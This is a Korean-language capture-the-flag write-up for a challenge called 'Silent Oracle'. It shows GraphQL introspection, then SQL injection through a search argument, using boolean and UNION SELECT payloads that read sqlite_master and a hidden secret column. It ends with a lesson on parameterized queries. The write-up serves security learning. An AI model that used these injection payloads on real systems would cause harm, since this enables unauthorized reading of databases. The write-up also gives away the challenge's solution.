





# Silent Oracle

## 문제 설명

> 직원 디렉토리 형태의 웹 서비스에서 숨겨진 정보를 찾아내는 문제이다.

- `/graphql` 엔드포인트가 제공된다.
- 공개 GraphQL 스키마에는 `User`의 일반 필드만 노출되어 있다.
- 목표는 공개 필드에는 없는 숨겨진 값을 찾아 flag를 획득하는 것이다.



## 풀이

### 분석

메인 페이지에는 다음과 같은 GraphQL 예시 쿼리가 제공되어 있었다.

```graphql
query {
  users(search: "a") {
    id
    username
    displayName
    role
    bio
  }
}
```

먼저 introspection을 통해 Query 타입에 어떤 필드가 있는지 확인했다.

```graphql
{
  __schema {
    queryType {
      fields {
        name
      }
    }
  }
}
```

확인 결과 Query에는 `about`, `users` 두 필드만 존재했다.

```text
about
users
```

`User` 타입에서 직접 조회 가능한 필드는 `id`, `username`, `displayName`, `role`, `bio`였다. `flag`, `secret`처럼 바로 의심할 수 있는 필드는 GraphQL 스키마에 노출되어 있지 않았다.



### 취약점

`users(search:)`의 `search` 인자는 이름 검색용으로 보였고, 내부적으로 SQL `LIKE` 조건에 들어가는 형태로 동작했다. `%`, `_` 와일드카드를 넣으면 전체 사용자 검색처럼 동작했고, 이를 통해 검색어가 SQL 쿼리에 직접 반영될 가능성을 확인했다.



다음 payload로 boolean 기반 SQL Injection이 가능한 것을 확인했다.

```text
zz%' OR 1=1 --
```



이후 `UNION SELECT`를 사용하기 위해 컬럼 개수와 출력 위치를 확인했다.

```text
zz%' UNION SELECT '9','union_user','Union Display','union_role','union_bio' --
```

이 payload는 GraphQL 응답의 다음 필드에 순서대로 매핑되었다.

```text
id, username, displayName, role, bio
```

즉, 내부 SQL 쿼리의 SELECT 결과가 5개 컬럼이고, 이를 맞추면 임의 데이터를 GraphQL 응답 필드로 출력할 수 있었다.

### 익스플로잇

데이터베이스가 SQLite라고 판단하고, `sqlite_master`를 조회해 실제 테이블 구조를 확인했다.

```text
zz%' UNION SELECT '1', name, tbl_name, type, sql
FROM sqlite_master
WHERE type='table' --
```

그 결과 `users` 테이블에 공개 GraphQL 필드에는 없는 `secret` 컬럼이 존재하는 것을 확인했다.

```sql
CREATE TABLE users (
  id INTEGER PRIMARY KEY AUTOINCREMENT,
  username TEXT NOT NULL UNIQUE,
  display_name TEXT NOT NULL,
  role TEXT NOT NULL,
  bio TEXT NOT NULL,
  secret TEXT NOT NULL
)
```



마지막으로 `secret` 컬럼 값을 공개 필드인 `bio` 위치로 매핑해 조회했다.

```text
zz%' UNION SELECT id, username, display_name, role, secret FROM users --
```

사용한 GraphQL 쿼리는 다음과 같다.

```graphql
query($s:String!) {
  users(search:$s) {
    id
    username
    displayName
    role
    bio
  }
}
```

응답에서 관리자 계정의 `bio` 필드에 flag가 출력되었다.

```json
{
  "id": "4",
  "username": "admin",
  "displayName": "Directory Admin",
  "role": "admin",
  "bio": "0xV01D{REDACTED}"
}
```

## 플래그

```text
0xV01D{REDACTED}
```

## 배운 점

GraphQL 스키마에 민감한 필드가 직접 노출되어 있지 않아도, resolver 내부에서 SQL 쿼리를 안전하게 구성하지 않으면 SQL Injection을 통해 숨겨진 DB 컬럼을 우회적으로 읽을 수 있다.

특히 GraphQL은 응답 필드가 타입에 맞춰 정리되어 보이기 때문에 SQL Injection 가능성이 덜 눈에 띌 수 있지만, 결국 resolver가 사용자 입력을 SQL에 어떻게 전달하는지가 핵심이다. 검색 기능처럼 단순해 보이는 인자도 parameterized query를 사용하지 않으면 `LIKE` 조건을 깨고 `UNION SELECT`로 임의 데이터를 노출시킬 수 있다.
